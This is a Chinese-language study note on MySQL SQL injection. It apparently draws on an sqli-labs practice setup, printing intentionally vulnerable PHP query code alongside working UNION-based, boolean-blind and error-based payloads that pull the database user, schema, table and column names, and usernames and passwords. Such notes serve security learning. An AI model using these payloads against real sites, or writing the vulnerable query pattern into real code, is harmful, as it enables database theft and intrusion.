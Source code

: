 #MYSQL注入笔记
##数据库信息
设数据库```security```里有如下```users```表。

```
mysql> desc users;
+----------+-------------+------+-----+---------+----------------+
| Field    | Type        | Null | Key | Default | Extra          |
+----------+-------------+------+-----+---------+----------------+
| id       | int(3)      | NO   | PRI | NULL    | auto_increment |
| username | varchar(20) | NO   |     | NULL    |                |
| password | varchar(20) | NO   |     | NULL    |                |
+----------+-------------+------+-----+---------+----------------+
3 rows in set (0.00 sec)
```

##构造注入SQL之一【GET - ErrorBased - IntegerBased】
###1. 漏洞代码

大致PHP代码如下

```
$id=$_GET['id'];
$sql="SELECT * FROM users WHERE id=$id LIMIT 0,1";
$result=mysql_query($sql);
$row = mysql_fetch_array($result);

if($row) {
	echo 'Your Login name:'. $row['username'];
	echo "<br>";
	echo 'Your Password:' .$row['password'];
} else {
	print_r(mysql_error());
}
```
通过提交```?id=1 AND 1=1```和```?id=1 AND 1=2```来判断

###2. 猜解字段数

通过``` UNION ALL SELECT NULL```中的```NULL```来猜解表的字段数，例如对于```users```表采用```SELECT *```的话就需要把SQL构造成``` UNION ALL SELECT NULL, NULL, NULL#```，如果采用```SELECT username, password```就只需要``` UNION ALL SELECT NULL, NULL#```就能判断出了。因此如果程序中写的不是```SELECT *```的话，猜解出来的字段数与实际可能不太一样。

###3. 获取MySQL信息

如果想要获取数据库的一些信息可以利用已经显示出来的字段，在构造注入代码的时候将这些信息替换到已经显示的字段里。

例如对于```SELECT * FROM users WHERE id=1```，得到

```
+----+----------+----------+
| id | username | password |
+----+----------+----------+
|  1 | Dumb     | Dumb     |
+----+----------+----------+
1 row in set (0.00 sec)
```

对于```SELECT * FROM users WHERE id=1 UNION ALL SELECT NULL, CURRENT_USER(), NULL LIMIT 0,1;```，还是得到一样的结果。说好的数据库信息呢？

```
+------+----------+----------+
| id   | username | password |
+------+----------+----------+
|    1 | Dumb     | Dumb     |
+------+----------+----------+
1 row in set (0.00 sec)
```

所以还要对```SQL```语句稍加改造```SELECT * FROM users WHERE id=-1 UNION ALL SELECT NULL, CURRENT_USER(), NULL LIMIT 0,1;```就可以得到想要的结果

```
+------+----------------+----------+
| id   | username       | password |
+------+----------------+----------+
| NULL | sqli@localhost | NULL     |
+------+----------------+----------+
1 row in set (0.00 sec)
```
因此如果网页上展示了username，那么就能直接得到当前连接数据库的用户名。因此我们提交的构造代码关键部分为```-1 UNION ALL SELECT NULL, CURRENT_USER(), NULL```。另外需要注意的是构造出来的字段数要与原始正常```SQL```字段数相同。

* 获取当前连接数据库的用户名 ```-1 UNION ALL SELECT NULL, CURRENT_USER(), NULL```
* 获取当前数据库的名字	```-1 UNION ALL SELECT NULL, DATABASE(), NULL```
* 获取当前数据库的版本号 ```-1 UNION ALL SELECT NULL, VERSION(), NULL```
* 获取当前服务器上数据库数量 ```-1 UNION ALL SELECT NULL, (SELECT COUNT(*) FROM information_schema.SCHEMATA), NULL```
* 如果不能直接通过网页得到数据库数量，可以通过```1 AND ORD(MID((SELECT IFNULL(CAST(COUNT(DISTINCT(schema_name)) AS CHAR),CHAR(32)) FROM information_schema.SCHEMATA),1,1)) > ord('1') ```来猜解。
* 猜解表名```1 AND ORD(MID((SELECT DISTINCT(IFNULL(CAST(schema_name AS CHAR),CHAR(32))) FROM information_schema.SCHEMATA LIMIT 0,1),1,1)) > ord('a')``` 当猜解的字母的值只有```>=0```成功时，表示该表名猜解完成。（其中```LIMIT x,y```中```x```表示从第几条记录开始查询，```y```表示最多要查询多少条记录）。通过变动```MID```和```LIMIT```的参数就可以把所有表名猜解完。
* 猜解表的字段数 ```-1 UNION ALL SELECT NULL, (SELECT COUNT(*) FROM information_schema.COLUMNS where table_name='users' AND table_schema='security'), NULL``` 或 ```-1 UNION ALL SELECT NULL, IFNULL(CAST(COUNT(*) AS CHAR),CHAR(32)), NULL FROM information_schema.COLUMNS WHERE table_name=CHAR(117,115,101,114,115) AND table_schema=CHAR(115,101,99,117,114,105,116,121)```
* 逐个猜解字段 ```-1 UNION ALL SELECT NULL, CONCAT(column_name, ' ', column_type), NULL FROM information_schema.COLUMNS where table_name='users' AND table_schema='security' LIMIT 0,1 ``` 或 ```-1 UNION ALL SELECT NULL, CONCAT(IFNULL(CAST(column_name AS CHAR),CHAR(32)), ' ', IFNULL(CAST(column_type AS CHAR),CHAR(32))), NULL FROM information_schema.COLUMNS WHERE table_name=CHAR(117,115,101,114,115) AND table_schema=CHAR(115,101,99,117,114,105,116,121) LIMIT 0,1```
* 猜解记录数```-1 UNION ALL SELECT NULL, IFNULL(CAST(COUNT(*) AS CHAR),CHAR(32)), NULL FROM security.users```
* 逐个获取字段```-1 UNION ALL SELECT NULL, CONCAT(IFNULL(CAST(id AS CHAR),CHAR(32)), ' ',IFNULL(CAST(username AS CHAR),CHAR(32)), ' ', IFNULL(CAST(password AS CHAR),CHAR(32))), NULL FROM security.users LIMIT 0,1```

##构造注入SQL之二【GET - ErrorBased - SingleQuotes - String】
###1.漏洞代码
```
$id=$_GET['id'];
$sql="SELECT * FROM users WHERE id='$id' LIMIT 0,1";
$result=mysql_query($sql);
$row = mysql_fetch_array($result);

if($row) {
	echo 'Your Login name:'. $row['username'];
	echo "<br>";
	echo 'Your Password:' .$row['password'];
} else {
	print_r(mysql_error());
}
```

###2.注入思路
通过提交```?id=1' AND '1'='1```和```?id=1' AND '1'='2```来判断。
其它与IntegerBased相似。如获取当前数据库的名字为```-1' UNION ALL SELECT NULL, DATABASE(), NULL AND '1'='```


##构造SQL注入之三
###1.漏洞代码
```
$id=$_GET['id'];
$sql="SELECT * FROM users WHERE id='$id' LIMIT 0,1";
$result=mysql_query($sql);
$row = mysql_fetch_array($result);

if($row) {
	echo 'You are in...........';
}
else {
	print_r(mysql_error());	
}
```
本代码的特点是不会在网页上输出任何字段值。
###2.注入思路
由于程序代码并不在网页上显示任何字段，因此我们如果想要得到数据库的一些信息得另外想办法。有一个方法是利用程序执行SQL时产生的错误会显示到网页上这一点，将要显示的信息嵌入错误信息里。对于MySQL利用的模板代码为```select count(*), CONCAT(CURRENT_USER(), FLOOR(RAND(0)*2)) x from information_schema.tables group by x;```会得到类似```ERROR 1062 (23000): Duplicate entry 'root@localhost1' for key 'group_key'```的错误提示。